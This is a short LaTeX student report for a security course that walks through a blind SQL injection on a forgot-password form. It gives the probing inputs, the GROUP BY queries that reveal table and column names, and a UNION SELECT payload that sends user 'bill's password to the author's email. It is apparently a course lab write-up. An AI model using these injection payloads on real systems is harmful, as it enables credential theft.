 \documentclass[10pt,a4paper]{article}
\author{Xavier Crochet}
\title{LINGI2347 report}
\begin{document}
\maketitle
\section{BLIND sql injection}
\begin{itemize}
\item{check whether they use the \begin{verbatim}mysql_real_escape_string by entering blabla'\end{verbatim} in the username field of the forget password field
Lucky me, it raised an error, meaning that they don't use the previous method, that would simply result by telling my that the user name wasn't found. We are in the \begin{verbatim}WHERE field=\end{verbatim} part of the query}
\item{If we input blabla or 'x'='x we get "An email has succesfuly been send to your email"}
\end{itemize}
So the query looks something like 
\begin{verbatim}
SELECT email, password from tablename where fieldname='\$USER'
\end{verbatim} 
We have to find tablename and fieldname
\begin{itemize}
\item{\begin{verbatim}' GROUP BY username ;--\end{verbatim}  there is a field called username}
\item{\begin{verbatim}' GROUP BY user.username ;--\end{verbatim} there is a table name called user}
\end{itemize}

Now we have to forge the response in order to recieve bill's password in our email box. 
\begin{itemize}
\item{First, we have to find the password field name \begin{verbatim}'GROUP BY password ;--\end{verbatim}}
\item{Then, enter the following input : \begin{verbatim}' union  select 'xavier.crochet@student.uclouvain.be', password from user where username='bill';--\end{verbatim}}
\end{itemize}
\end{document}

